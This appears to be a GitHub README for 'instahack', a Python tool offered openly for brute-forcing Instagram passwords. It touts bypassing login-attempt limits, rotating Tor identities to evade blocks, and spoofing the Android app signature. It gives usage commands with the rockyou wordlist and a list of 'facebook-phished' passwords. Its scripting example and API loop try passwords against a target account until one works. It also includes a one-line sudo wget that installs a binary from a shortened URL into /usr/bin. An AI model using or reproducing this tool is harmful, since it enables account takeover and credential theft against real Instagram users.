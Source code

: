 .. image:: https://raw.githubusercontent.com/evildevill/instahack/master/.img/poster.png



.. raw:: html
 
 <blockquote>:briefcase: The Official instahack repo. A professional tool to :8ball: brute force instagram :camera_flash: accounts with less resource :gift: as possible , Written in Python :snake: and made with :heart: -- Antony Jr.</blockquote>
    
 
 <h1 align="center" > instahack </h1>

 <p align=center>
 <a href="https://travis-ci.org/evildevill/instahack">
 <img src="https://travis-ci.org/evildevill/instahack.svg?branch=master" / >
 </a>

 <a href="https://github.com/evildevill/instahack/issues">
 <img src="https://img.shields.io/github/issues/evildevill/instahack.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/evildevill/instahack/network">
 <img src="https://img.shields.io/github/forks/evildevill/instahack.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/evildevill/instahack/stargazers">
 <img src="https://img.shields.io/github/stars/evildevill/instahack.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/evildevill/instahack/blob/master/LICENSE">
 <img src="https://img.shields.io/github/license/evildevill/instahack.svg?style=flat-square" / >
 </a>
 
 <a class="badge-align" href="https://www.codacy.com/app/evildevill/instahack?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=evildevill/instahack&amp;utm_campaign=Badge_Grade"><img src="https://api.codacy.com/project/badge/Grade/352d5096b26e46faaa6b7434ad5afed6"/></a>
 
 </p>

  
  
| This project was started as a **POC** and then evolved into something. I first started this project when a lot of people
| started asking about brute forcing instagram and so I started working on a **Proof-Of-Concept** for brute forcing instagram
| without any password (try) limiting. Another reason to start working on this project was that there was no good tool to do
| this job , Yep! even now if you search through github you cannot find a tool which is good as instahack. Since a few people
| liked this tool , I decided to give it a **LTS**. Still there exists some old versions of instahack all-over github but
| **this is the official repo**. You can also use **different versions** of **instahack** through **pip**. 


.. raw:: html

 <br>
 <p align=center>
 <table>
 <tr>
 <th>DOWNLOAD</th>
 <th>INSTALL</th>
 </tr>
 <tr>
 <td>
 <a href="https://github.com/evildevill/instahack/releases/download/continuous/instahack-continuous-x86_64.AppImage">
 <img src="https://img.shields.io/badge/LINUX_DOWNLOAD-InSTAGRAM--PY%20PORTABLE%20x86__64-brightgreen.svg?style=for-the-badge" />
 </a>
 </td>
 <td>
 <pre>
 $ chmod +x instahack-continous-x86_64.AppImage;
 $ ./instahack-continous-x86_64.AppImage # Just Use!
 </pre>
 </td>
 </tr>
 </table>
 <br>
 <img src="https://raw.githubusercontent.com/evildevill/instahack/master/.img/preview.gif" / >
 </p>



------
 How?
------

| We use , **tor** to change our ip once blocked for many tries and continue attack.
| Since the official api is not a hacker wants, So we use the **InstagramAPK signature** to stay **anonymous!**
| And we also **save** the **progress** so that even in network interruption we can avoid breaking the computer!


-------
 What?
-------

| **instahack** is a slick python script to perform  **brute force** attack against **Instagram** ,   
| this script can **bypass** login limiting on wrong passwords ,  so basically it can test **infinite number of passwords**.
| instahack is **proved** and can test **over 6M** passwords on a single instagram account with **less resource** as possible
| This script mimics the activities of the official **instagram android app** and sends request over **tor** so you are secure ,
| but if your **tor** installation is **misconfigured** then the blame is on you.


------------
 Features
------------

* Ultra Portable

  As of instahack v2.0.6 , instahack is also distributed in **AppImages** , If you use
  instahack bundled in a AppImage , **You do not need to install anything , even tor.**
  Just **download** , **mark it executable** and **enjoy**! 
  Now instahack is the only (*The best of my knowledge*) hacking tool which is ultra portable that you
  can carry in a thumb drive. ( And use it in **any Linux Distro without installing anything**).
  know more in the installation section.

* instahack Scripting

  Craft your own python script which will embed into instahack for Maximum Customization of your
  brute force attack , example: What if you want a message sent to your phone when an account is hacked?

* Resumes Attacks when the same wordlist is used on the same Username
* Dumps successfully cracked accounts.
* Maximum Customization! ( This includes multiple attack vectors! )
* Fast and Clean Code , no ugly selenum drivers! ( Pure Requests )
* Elegant Tor Identity Change with Stem ( Tor's Official Library for Python )


**Depends on**: python3 , tor ,  requests , requests[socks] , stem (*Don't need anything if you use instahack Portable*)

==============
 Installation
==============

------------------------------------------------------------
Get instahack with Zero Setup ( instahack Portable )
------------------------------------------------------------


Just **execute** this **single command** and you will have everything to start using
**instahack** right-away!
**This Method is only possible for Linux Distro's with 64Bit Architecture** (*Any Linux Distro which is 64 Bit*).
**If you use this method...**

* You **don't** need to install anything in your **linux distro**.
* You **don't** even need **python** and **tor server** installed.
* You **don't** need any type of **configuration**. (*It Just Works!*)


::

 $ sudo wget -O /usr/bin/instahack https://git.io/vxKaq; sudo chmod +x /usr/bin/instahack
 $ instahack # Installed , Easy right ?



**Caution**: Please don't mix up this installation and pip installation as it may give unexpected
output.

You can also download **instahack** directly from the release page and save it in a thumb drive
to use it later, Cool right ?


---------------------------------
 Upgrading instahack with pip
---------------------------------

::

 $ sudo pip3 install instahack --upgrade


-------------------------------
 using pip to get instahack
-------------------------------

**Make sure you have got the latest version of pip(>= 9.0 and python(>= 3.6)**

::

 $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip
 $ sudo pip3 install requests --upgrade
 $ sudo pip3 install requests[socks]
 $ sudo pip3 install stem
 $ sudo pip3 install instahack
 $ instahack # installed successfully
 $ # Configuration is Super Important so Lets Create One
 $ instahack --create-configuration # follow the steps... 

--------------------------------
    Configuring instahack
--------------------------------

**As of v2.0.0 Configuration is Simply done by Passing an Argument to instahack**

::

 $ instahack --create-configuration
 $      # OR
 $ instahack -cc



**Or if you just want the default settings without the annoying questions then**

::

 $ instahack --create-configuration --default-configuration
 $      # OR
 $ instahack -cc -dc



--------------------------------------------------
    Configuring Tor server to open control port
--------------------------------------------------

open your **tor configuration** file usually located at **/etc/tor/torrc**


::
 
 $ sudo vim /etc/tor/torrc # open it with your text editor
 

**search** for the file for this **specific section**

::

 ## The port on which Tor will listen for local connections from Tor
 ## controller applications, as documented in control-spec.txt.
 #ControlPort 9051
 
**uncomment** 'ControlPort' by deleting the **#** before 'ControlPort' , **now save the file and restart your tor server**

**now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json** 

=============
    Usage
=============

**Finally** , now you can use instahack!

**instahack Scripting lets you run Custom Python Scripts Inside instahack!**

**Never Run instahack with Multiple Instance! , Use instahack Scripting Instead!**


::

 $ instahack -u your_account_username -pl path_to_password_list


**Note**: Without the **-c** optional argument , instahack **will not continue the attack**

::

 usage: instahack [-h] [--username USERNAME] [--password-list PASSWORD_LIST]
                     [--script SCRIPT] [--inspect-username INSPECT_USERNAME]
                     [--create-configuration] [--default-configuration]
                     [--countinue] [--verbose]
 
 optional arguments:
   -h, --help            show this help message and exit
   --username USERNAME, -u USERNAME
                         username for Instagram account
   --password-list PASSWORD_LIST, -pl PASSWORD_LIST
                         password list file to try with the given username.
   --script SCRIPT, -s SCRIPT
                         instahack Attack Script.
   --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME
                         Username to inspect in the instahack dump.
   --create-configuration, -cc
                         Create a Configuration file for instahack with
                         ease.
   --default-configuration, -dc
                         noconfirm for instahack Configuration Creator!
   --continue-attack, -c       Continue the previous attack if found.
   --verbose, -v         Activate Verbose mode. ( Verbose level )

 example: instahack -c -vvv -u instatestgod__ -pl rockyou.txt

 Report bug, suggestions and new features at https://github.com/evildevill/instahack



========================
 instahack Scripting
========================

instahack now lets you run your custom scripts inside of it for maximum customization of your attacks.
This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

**Witness the power of instahack Scripting**

::

 #!/usr/bin/instahack -s
 # Only Supports Python 3

 import os

 def hacked_an_account(username , password):
    # Use Twilio API to Make a Message to our phone MayBe?
    print("Account Cracked!")
    return True


 print("Initiating Multi Username Attack Script...")

 global_callback = hacked_an_account
 global_password_list = "{}/.exploits/facebook-phished.txt".format(os.path.expanduser('~'))

 usernames = [ # Reserved Variable
   {
   "id" : "instatestgod__",
   "password_list" : "/home/antonyjr/Developer/.exploits/rockyou.txt" , # full path
   "continue" : True, # Optional
   "verbose" : 0 # Optional
    },
   # If you want to simultaniously attack the same account with different wordlist
   # Apparently Saving does not work here if two wordlist are used on a single user!
   # could be later fixed anyways...
   {
   "id" : "instatestgod__",
   # global password list will cover us if password list is not mentioned!
   "continue" : False, # Optional
   "verbose" : 3 # Optional
   }
   # ,
   # {
   # "id" : "even_more_users",
   # "password_list" : "different_passwords.lst",
   # }
 ]



**You Can Always View the Cracked Passwords Using this command!**

::

 $ instahack -i instatestgod__
 $ # Displays record if it is cracked in the past!

===========================
 Using instahack as API
===========================

**instahack supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!**

For some reason you wish not to use my software then you can use my software as a module and embed into your own
software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

**Follow the same installation method mentioned above to install instahack API.**

This is a simple script to conduct a bructe force attack using instahack as a API.

::

 #!/usr/bin/env python3
 '''
   This is the same thing that is in the __init__ file of the command-line
   tool.
 '''
 from InstagramPy.InstagramPyCLI import InstagramPyCLI
 from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH
 from InstagramPy.InstagramPyInstance import InstagramPyInstance
 from datetime import datetime
 
 username = "TARGET ACCOUNT USERNAME"
 password = "PASSWORD LIST PATH"

 appInfo = {
    "version"     : "0.0.1",
    "name"        : "instahack Clone",
    "description" : "Some Module to crack instagram!",
    "author"      : "YourName",
    "company"     : "YourCompany",
    "year"        : "2017",
    "example"     : ""
 }

 cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)
 
 '''
 # USE THIS IF YOU WANT
 cli.PrintHeader()
 cli.PrintDatetime()
 '''
 session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli)
 session.ReadSaveFile(True) # True to countinue attack if found save file.
 '''
 # USE THIS IF YOU WANT
 cli.PrintMagicCookie(session.magic_cookie)
 '''

 '''
  Defining @param cli = None will make instahack run silently so you
  can you use your own interface if you like.
  or if you want to use the official interface then declare like this

  instagrampy = InstagramPyInstance(cli = cli , session = session)

 '''

 instagrampy = InstagramPyInstance(cli = None ,session = session)
 while not instagrampy.PasswordFound():
        print('Trying... '+session.CurrentPassword())
        instagrampy.TryPassword()

 if instagrampy.PasswordFound():
        print('Password Found: '+session.CurrentPassword())

 exit(0) 
 


=========
Support
=========

If you think that this project is **cool** then you can give it a :star: or :fork_and_knife: it if you want to improve it with me. I really :heart: stars though!   

.. raw:: html

 <p align="center">
     <a href="https://paypal.com/hackerwasii">
        <img src="https://liberapay.com/assets/widgets/donate.svg">
     </a>
 </p>


If you want to do something that stands out then you can click the **donate** button at the top to make a monthly donation , So   
I will make sure that I stay healthy and keep on to do my work. :briefcase: Supporting me means supporting all of my projects , So   
you are like **Tony Stark** :heart: who backs **Spider-Man**! Thank you for your extra care! :dog:   

You can also tweet about me on twitter , get connected with me here -> https://twitter.com/antonyjr0

Thank You! :smiley_cat:



=============
   License
=============

The MIT License,

Copyright (C) 2022 evildevill , Waseem Akram.
